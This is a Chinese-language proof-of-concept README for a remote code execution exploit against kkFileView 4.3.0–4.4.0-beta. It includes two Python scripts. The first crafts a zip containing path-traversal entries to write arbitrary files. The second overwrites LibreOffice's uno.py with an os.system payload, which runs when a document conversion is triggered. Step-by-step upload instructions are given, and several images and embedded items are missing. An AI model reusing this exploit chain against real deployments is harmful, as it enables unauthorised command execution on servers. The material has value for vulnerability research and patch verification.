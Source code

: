 # kkFileView-v4.3.0-RCE-POC

## v4.3.0~v4.4.0-beta

https://github.com/kekingcn/kkFileView/releases/tag/v4.3.0

此版本为官方源代码最新版

### 环境部署

本地源码启动或者docker部署

![img](images/(null)-20240415195822360.(null))

### 任意文件上传

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ueeeeee'
        binary2 = b'hacked_by_1ue'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意`hack.zip`，注意里面必须有一个正常文件，例如`test`，便于创建`hack.zip_`缓存文件

![img](images/(null)-20240415195822385-3182302.(null))

上传文件并预览

![img](images/(null)-20240415195822385.(null))

![img](images/(null)-20240415195822430.(null))

发现成功穿越

### RCE

可以任意文件上传，并且可以追加文件内容

经过我研究发现，目标在使用odt转pdf时会调用系统的Libreoffic，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意的zip包

暂时无法在飞书文档外展示此内容

上传并预览

![img](images/(null)-20240415195822638.(null))

再随便上传一个odt文件，另其发起libreoffice任务

暂时无法在飞书文档外展示此内容

上传并预览

![img](images/(null)-20240415195822411.(null))

可以看到命令成功被执行

![img](images/(null))

uno.py中也确实被写入了内容

![img](images/(null)-20240415195822672.(null))
